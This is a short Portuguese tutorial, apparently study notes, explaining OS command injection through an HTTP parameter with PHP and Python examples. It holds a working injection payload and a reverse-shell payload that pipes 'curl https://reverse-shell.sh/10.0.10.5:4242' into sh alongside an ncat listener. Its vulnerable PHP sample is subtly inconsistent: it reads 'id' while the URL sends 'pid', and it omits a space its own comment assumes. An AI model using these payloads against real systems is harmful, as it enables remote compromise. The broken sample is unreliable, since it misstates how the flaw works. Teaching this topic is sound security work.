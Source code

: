 é uma vulnerabilidade que permite o envio de comandos ao sistema via requisição HTTP.

As linguagens tem comandos para executar comandos no sistema.

```php
<?php
system('id');
?>
```

```python
import os
os.system('id')
```

## Injeção
Caso o sistema não estiver tratando o valor obtido, podemos injetar um comando de nosso uso.

**Requisição normal**
<input style="width:100%;padding:5px;font-size:18pt;" value="http://corp.com/kill?pid=123">
```php
<?php
$pid = $_GET['id'];
system('kill -9' . $pid);
?>
```

**Injeção**
<input style="width:100%;padding:5px;font-size:18pt;" value="http://corp.com/kill?pid=123;ls">
```php
<?php
$pid = $_GET['id'];
system('kill -9' . $pid); # kill -9 123;ls
?>
```

## Reverse shell
Considerando que nosso ip seja 10.0.10.5, podemos baixar uma reverse shell na máquina alvo.

```sh
ncat -lnvp 4242
```
<input style="width:100%;padding:5px;font-size:18pt;" value="http://corp.com/kill?pid=123;curl https://reverse-shell.sh/10.0.10.5:4242 | sh">
